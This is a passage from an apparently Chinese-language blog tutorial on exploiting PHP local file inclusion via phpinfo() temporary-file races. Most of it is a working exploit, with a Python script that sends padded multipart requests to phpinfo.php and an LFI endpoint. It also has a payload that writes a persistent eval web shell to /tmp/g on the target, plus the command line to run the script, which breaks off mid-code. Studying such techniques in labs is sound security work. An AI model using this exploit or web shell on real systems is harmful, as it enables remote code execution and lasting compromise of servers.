    ![1543937153772](https://github.com/threeworld/threeworld.github.io/blob/master/images/1543937129(1).jpg?raw=true)



   ![1543937043(1)]({{site.url}}/images/1543937043(1).jpg)

2. 利用脚本exp_lfi.py实现了上述过程，成功包含临时文件后，会执行`<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>`，写入一个新的文件`/tmp/g`，这个文件就会永久留在目标机器上。

   ```
   python2 exp_lfi.py ip port threadnum
   ```

   ![1543937873(1)]({{site.url}}/images/1543937873(1).jpg)

3. 执行系统命令


![1543938129(1)]({{site.url}}/images/1543938129(1).jpg)

exp.py:

```python
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
```